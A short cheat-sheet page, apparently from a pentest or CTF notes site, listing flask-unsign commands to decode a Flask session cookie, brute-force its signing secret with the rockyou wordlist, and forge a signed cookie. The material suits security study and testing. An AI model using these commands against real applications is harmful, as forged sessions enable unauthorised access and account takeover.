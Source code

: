 ```yaml
---
title: "Flask Cookie"
date: 2024-6-27
tags: ["flask", "python", "cookie", "sign", "unsign"]
---
```


### Cookie Tools

{{< tab set1 tab1 active >}}flask-unsign{{< /tab >}}
{{< tabcontent set1 tab1 >}}

<div>

```console
# Install
pip3 install flask-unsign
```

```console
# Decode flask cookie
flask-unsign --decode --cookie <COOKIE>
```

```console
# Brute force secret key
flask-unsign --unsign --cookie <COOKIE> -w /usr/share/wordlists/rockyou.txt --no-literal-eval
```

```console
# Forge flask cookie
flask-unsign --sign --cookie <COOKIE_DATA> --secret <SECRET>
```

</div>

{{< /tabcontent >}}

<br>